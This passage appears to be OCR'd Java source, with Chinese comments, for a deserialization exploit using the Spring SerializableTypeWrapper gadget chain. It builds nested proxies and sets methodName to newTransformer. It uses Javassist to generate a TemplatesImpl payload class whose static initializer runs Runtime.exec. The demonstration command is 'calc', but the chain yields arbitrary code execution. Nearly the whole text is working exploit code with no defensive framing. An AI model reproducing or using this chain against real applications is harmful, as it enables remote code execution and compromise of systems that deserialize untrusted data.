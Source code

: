 ```bash
        // 并由ObjectFactoryDelegatingInvocationHandler代理,
        // invokeMethod()触发ObjectFactoryDelegatingInvocationHandler#invoke()
        Type TypeTemplates= (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Type.class,Templates.class},objInvocationHandler);
        HashMap hashMap1=new HashMap();
        hashMap1.put("getType",TypeTemplates);

        //AnnotationInvocationHandler代理TypeProvider,让getType()返回TypeTemplates
        InvocationHandler invocationHandler1= (InvocationHandler) constructor.newInstance(Target.class,hashMap1);
        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object TypeProvider=Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{typeProviderClass},invocationHandler1);

        //将TypeProvider赋值给MethodInvokeTypeProvider并修改methodName,漏洞入口点
        Class<?>  MethodInvokeTypeProvider=Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor2=MethodInvokeTypeProvider.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object result=constructor2.newInstance(TypeProvider,Object.class.getMethod("toString"),1);
        setFieldValue(result,"methodName","newTransformer");
        String s=serialize(result);
        unserialize(s);
    }
    public static String serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
        outputStream.writeObject(object);
        outputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static  void unserialize(String s) throws IOException, ClassNotFoundException {
        byte[] result=Base64.getDecoder().decode(s);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(result);
        ObjectInputStream objectInputStream=new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
    public static byte[] getTemplates() throws CannotCompileException, NotFoundException, IOException {
        ClassPool classPool=ClassPool.getDefault();
        CtClass ctClass=classPool.makeClass("Test");
        ctClass.setSuperclass(classPool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"));
        String block = "Runtime.getRuntime().exec(\"calc\");";
        ctClass.makeClassInitializer().insertBefore(block);
        return ctClass.toBytecode();
    }

}
```
